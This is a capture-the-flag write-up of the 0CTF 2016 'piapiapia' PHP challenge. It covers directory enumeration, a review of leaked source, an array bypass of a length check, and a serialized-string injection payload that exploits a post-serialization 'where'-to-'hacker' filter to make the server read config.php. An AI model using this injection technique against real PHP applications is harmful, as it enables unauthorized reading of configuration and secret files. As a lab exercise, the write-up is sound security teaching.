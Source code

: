 ### References

- [@g0udan, piapiapia解题详细思路及复现, 2020-01-20](https://www.cnblogs.com/g0udan/p/12216207.html)
- [@frystal, [0CTF 2016]piapiapia, 2019-11-08](https://frystal.github.io/2019/11/08/0CTF-2016-piapiapia/)

**Tag: PHP unserialize, LFI, Code review**

1.Try sql injection so hard, just dirsearch :/

```tex
py .\dirsearch.py -e php,bak,zip -u http://192.168.200.129:8302 -t 20 -x 404

[22:15:44] Starting:
[22:15:59] 200 -    0B  - /config.php
[22:16:08] 200 -   11B  - /profile.php
[22:16:11] 301 -  185B  - /static  ->  http://192.168.200.129/static/
[22:16:12] 200 -   11B  - /update.php
[22:16:12] 301 -  185B  - /upload  ->  http://192.168.200.129/upload/
[22:16:12] 403 -  571B  - /upload/
[22:16:14] 200 -  392KB - /www.zip
```

we can found some interesting files like `www.zip`.

2.`$flag` variable stored inside `config.php`, may be we need to include or read this file to get the flag. It's easy to find that there are file operation functions `file_get_contents` in `profile.php`, and the parameter `$photo` is controllable:

```php
$profile=$user->show_profile($username);
if($profile  == null) {
    header('Location: update.php');
} else {
    $profile = unserialize($profile);
    $phone = $profile['phone'];
    $email = $profile['email'];
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));
```

so if we change `$profile['photo']` to `config.php`, we can get the flag at profile with base64 decoded.

3.Since there is a unserialization operation, so elsewhere have serialization definitely. We can find it in `update.php`:

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {
    $username = $_SESSION['username'];
    ...if...
    $file = $_FILES['photo'];
    ...if...
    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);
    $user->update_profile($username, serialize($profile));
```

Regular expressions are used here to filter the data we submit, one of them that we noticed was a little bit different:

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```

Use the `strlen` function to determine whether the nickname length exceeds 10, and we can easily bypass this restriction using array like `nickname[]=`.

Now we have preliminary ideas that we need to control serialized data make it can read `config.php` during unserialization.

4.Follow the `update_profile` function, in `class.php`:

```php
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile);
    $where = "username = '$username'";
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```

and the `filter`:

```php
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```

The problem is, it's sanitized **after** being serialized,

> Any data with a certain structure may cause problems if the structure is disrupted after some processing.

the `filter` function replacing "where" with "hacker" changes the length of the string. Allowing us to replace part of serialized object with our content.

5.As mentioned above, We need replace photo file name with `config.php`:

```tex
";}s:5:"photo";s:10:"config.php";}
```

here are 34 characters, so we need input `where` 34 times and it replace to `hacker` increased string length by 34. Payload:

```python
>>> print('where' * 34 + '";}s:5:"photo";s:10:"config.php";}')
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

During `unserialize()`, it will automatically ignore the content that can be serialized correctly. So the rest of the content is discarded.

![img1](./assets/img1.png?raw=true)

go profile.php:

![img2](./assets/img2.png?raw=true)

